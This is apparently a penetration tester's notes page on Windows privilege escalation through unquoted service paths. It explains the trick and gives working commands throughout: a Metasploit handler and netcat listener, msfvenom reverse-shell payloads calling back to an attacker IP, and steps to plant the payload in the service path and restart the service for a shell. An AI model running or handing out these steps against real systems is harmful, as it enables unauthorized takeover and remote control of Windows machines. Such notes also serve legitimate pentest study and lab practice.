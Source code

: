 -- -
[[Dark Arts/Privesc/Windows/Enumeration/Unquoted Service Paths|Enum]]
As it sounds, you know what this is. The service has a path that includes a space (and isn't inside quotation marks!) in it so you just make sure to have control of (or make your own) directory of the first word before the space, then put your malware in that directory so that when the service goes to run, it picks up your malware thinking it found the right program and stops looking for the actual program.

For example, if the path is `C:\Program Files\service.exe`, you put your malware in `C:\program.exe`, and that gets picked up before the first path. 
#### Setup listener
```bash
# meterpreter
msfconsole
use multi/handler
set lhost=<attack ip>
set lport=<port>
run

# reverse shell
nc -nvlp <port>
```
#### Payload
Or go to [Rev Shell Gen](https://revshell.xehn.lol)
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<attack ip> LPORT=<port> -f exe -o common.exe

msfvenom -p windows/x64/reverse_tcp LHOST=<attack ip> LPORT=<port> -f exe -o common.exe

msfvenom -p windows/shell_reverse_tcp LHOST=<attack ip> LPORT=<port> -f exe -o common.exe
```
#### Exploit
[[Windows|File transfer]] payload to target machine
```powershell
# in this example, the unquoted service path is
# C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
# so we will place the payload as:
# C:\Program Files\Unquoted Path Service\common.exe
copy common.exe "C:\Program Files\Unquoted Path Service\common.exe"

# now start/restart the service
sc start <service> 
sc start unquotedpathsvc

# and you should now have a shell
```